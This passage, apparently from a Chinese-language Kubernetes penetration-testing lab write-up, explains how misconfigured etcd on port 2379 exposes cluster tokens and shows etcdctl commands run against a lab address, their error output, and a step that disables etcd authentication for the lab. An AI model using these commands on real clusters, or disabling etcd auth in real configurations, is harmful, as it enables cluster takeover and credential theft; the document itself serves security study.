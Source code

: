 还是没权限，但能执行命令了也许 getshell 了，如果获得了权限接下来的操作和攻击 8080 端口类似

### 攻击 2379 端口

原理  
etcd 组件默认监听 2379 端口：默认通过证书认证，主要存放节点的信息，如一些 token 和证书。  
kubernetes 的 master 会自动安装 etcd v3(注意版本) 用来存储数据，如果管理员进行了错误的配置，导致 etcd 未授权访问的情况，那么攻击者就可以从 etcd 中拿到 kubernetes 的认证鉴权 token，从而接管集群。  
利用  
etcd2 和 etcd3 是不兼容的，两者的 api 参数也不一样。**k8s 现在使用的是 etcd v3**，**必须提供 ca、key、cert**，否则会出现 Error: context deadline exceeded。  
nmap 虽然没有扫到 node01 和 node02 的 2379 端口，但执行命令后依旧可以得到回显，可以看到 Error: context deadline exceeded。

```plain
etcdctl --endpoints=https://192.168.108.100:2379 get / --prefix --keys-only
#得到的回显
{"level":"warn","ts":"2023-11-22T10:34:49.456+0800","caller":"clientv3/retry_interceptor.go:62","msg":"retrying of unary invoker failed","target":"endpoint://client-64f6a717-0ddc-4dc9-a1ca-a2097c19d93c/192.168.108.100:2379","attempt":0,"error":"rpc error: code = DeadlineExceeded desc = latest balancer error: all SubConns are in TransientFailure"}
Error: context deadline exceeded
```

[![](assets/1701678402-b916c884ddecacdbc7347b231c6279d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190920-e941a224-8f70-1.png)  
默认情况下需要授权才能访问，带上证书访问：

```plain
etcdctl --insecure-skip-tls-verify --insecure-transport=true --endpoints=https://192.168.108.100:2379 --cacert=ca.pem --key=etcd-client-key.pem --cert=etcd-client.pem endpoint health
```

但目前版本的 2379 端口不存在未授权，因此修改配置，配置文件：/etc/kubernetes/manifests/etcd.yaml，下图红框中的配置从 true 改为 false 或者注释掉  